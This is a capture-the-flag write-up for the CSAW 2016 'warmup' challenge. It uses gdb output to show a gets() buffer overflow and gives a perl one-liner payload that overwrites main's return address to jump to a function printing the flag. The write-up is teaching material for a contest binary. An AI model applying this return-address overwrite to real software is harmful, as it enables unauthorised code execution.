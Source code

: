 # CSAW 2016 Quals
# warmup
##### Brad Daniels -- USF Whitehatter's Computer Security Club
##### pwn -- 50 points
## Description
So you want to be a pwn-er huh? Well let's throw you an easy one ;)

`nc pwn.chal.csaw.io 8000`

## Solution
Warmup gives you a 64-bit ELF binary. When run, it produces the following output: 
~~~
sh$ ./warmup
-Warm Up-
WOW:0x40060d
> 
sh$ 
~~~
Each time it's run, it produces the same "WOW" hex value, `0x40060d`. 

Lets open the file in gdb to see what's going on. 

~~~
sh$ gdb warmup
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400488  _init
0x00000000004004c0  write@plt
0x00000000004004d0  system@plt
0x00000000004004e0  __libc_start_main@plt
0x00000000004004f0  __gmon_start__@plt
0x0000000000400500  gets@plt
0x0000000000400510  sprintf@plt
0x0000000000400520  _start
0x0000000000400550  deregister_tm_clones
0x0000000000400580  register_tm_clones
0x00000000004005c0  __do_global_dtors_aux
0x00000000004005e0  frame_dummy
0x000000000040060d  easy
0x000000000040061d  main
0x00000000004006b0  __libc_csu_init
0x0000000000400720  __libc_csu_fini
0x0000000000400724  _fini
(gdb)
~~~ 

The one function that sticks out here is "easy". If we disasemble in in gdb we see that it calls `system("cat flag.txt")`

~~~
(gdb) disas easy
Dump of assembler code for function easy:
0x000000000040060d <+0>:     push   rbp
0x000000000040060e <+1>:     mov    rbp,rsp
0x0000000000400611 <+4>:     mov    edi,0x400734
0x0000000000400616 <+9>:     call   0x4004d0 <system@plt>
0x000000000040061b <+14>:    pop    rbp
0x000000000040061c <+15>:    ret
End of assembler dump.
(gdb) x/s 0x400734
0x400734:       "cat flag.txt"
(gdb)
~~~

The main function ends with a `gets()` call followed by the `leave` and `ret` instructions. Since `gets()` is vulnerable to buffer overflows, thisi should be easy. 

Let's set a breakpoint after the call to `gets()`, enter some text, and observe what happens on the stack. 

~~~
(gdb) b * 0x00000000004006a3
Breakpoint 1 at 0x4006a3
(gdb) r
Starting program: ./warmup
-Warm Up-
WOW:0x40060d
>aaaaaaaa

Breakpoint 1, 0x00000000004006a3 in main ()
(gdb) p $rbp
$4 = (void *) 0x7fffffffe360
(gdb) p $rsp
$5 = (void *) 0x7fffffffe2e0
(gdb) x/20gz $rsp
0x7fffffffe2e0: 0x6430363030347830      0x000000000000000a
0x7fffffffe2f0: 0x0000000000000000      0x0000000000000000
0x7fffffffe300: 0x0000000000000000      0x0000000000000000
0x7fffffffe310: 0x0000000000000000      0x0000000000000000
0x7fffffffe320: 0x6161616161616161      0x0000000000400600
0x7fffffffe330: 0x0000000000000000      0x0000000000000000
0x7fffffffe340: 0x00000000004006b0      0x0000000000400520
0x7fffffffe350: 0x00007fffffffe440      0x0000000000000000
0x7fffffffe360: 0x00000000004006b0      0x00007ffff7a2e830
0x7fffffffe370: 0x0000000000000000      0x00007fffffffe448
(gdb)
~~~
At `0x7fffffffe360` is the previous stack frame base pointer, and in the following word at `0x7fffffffe368` sits the return address of the `main` function. That is what we need to overwrite.  

Since the current return address is 6 bytes, we need our injected address to overwrite all those bytes. If we don't include two extra null bytes, our return address will wind up being `0x00007fff0040060d`, which will cause a segfault. `gets()` allows us to include null bytes in our string so this should be easy.

We can use a perl one-liner to easily prepare a suitable injection string. 
~~~
sh$ perl -e 'print "a"x72; print "\x0d\x06\x40\x00\x00"' > egg.txt
sh$ nc pwn.chal.csaw.io 8000 < egg.txt
-Warm Up-
WOW:0x40060d
>FLAG{LET_US_BEGIN_CSAW_2016}
~~~ 
